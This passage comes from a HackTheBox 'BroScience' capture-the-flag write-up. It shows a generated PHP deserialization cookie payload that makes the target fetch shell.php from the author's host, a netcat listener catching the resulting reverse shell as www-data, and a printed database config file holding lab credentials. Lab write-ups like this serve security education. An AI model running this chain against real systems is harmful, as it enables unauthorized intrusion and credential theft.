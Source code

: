 And then finally set my cookie, setup my http server, and prep my listener. If all this works the way I think it does I should get my shell. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/BroScience]
└──╼ $php payloadgen.php 
TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoyODoiaHR0cDovLzEwLjEwLjE0LjE0L3NoZWxsLnBocCI7czo3OiJpbWdQYXRoIjtzOjExOiIuL3NoZWxsLnBocCI7fQ==
```
I set my cookie value and then headed to the front page. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/BroScience]
└──╼ $sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.195 - - [26/Feb/2023 19:16:39] "GET /shell.php HTTP/1.0" 200 -
10.10.11.195 - - [26/Feb/2023 19:16:39] "GET /shell.php HTTP/1.0" 200 -
```

And now to head to **https://broscience.htb/shell.php** and get my shell.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/BroScience]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.195] 50184
bash: cannot set terminal process group (1238): Inappropriate ioctl for device
bash: no job control in this shell
www-data@broscience:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<h1>User as bill</h1>

There was a file I didn't read yet named db_connect.php in /includes. Probably has database credentials.

```bash
www-data@broscience:/var/www/html$ cat includes/db_connect.php
cat includes/db_connect.php
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
```
